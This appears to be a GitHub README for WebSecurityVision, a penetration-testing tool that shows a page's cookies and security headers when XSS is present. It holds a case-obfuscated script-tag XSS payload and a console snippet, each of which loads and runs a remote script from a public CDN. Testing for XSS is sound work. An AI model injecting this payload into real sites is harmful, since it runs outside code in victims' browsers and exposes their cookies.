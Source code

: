 # WebSecurityVision

WebSecurityVision is a tool for checking XSS vulnerability in the Pentest process, by calling it on the page, if the site has XSS vulnerability and the security headers are not set correctly, the browser information, including cookies and headers related to the cyber security space shows.

<p align="center">
    <img alt="BetterCap" src="https://github.com/TheWation/WebSecurityVision/blob/master/github/screenshot.png?raw=true" height="394" />
</p>

## Usage

To use, enter the following code through the vulnerable section or enter the page through the Developer Console section.

Vulnerable Input:

```javascript
<ScRiPT SRC=https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js></ScRiPT>
```

Inspect Element:

```javascript
var script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js';
document.head.appendChild(script);
```

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.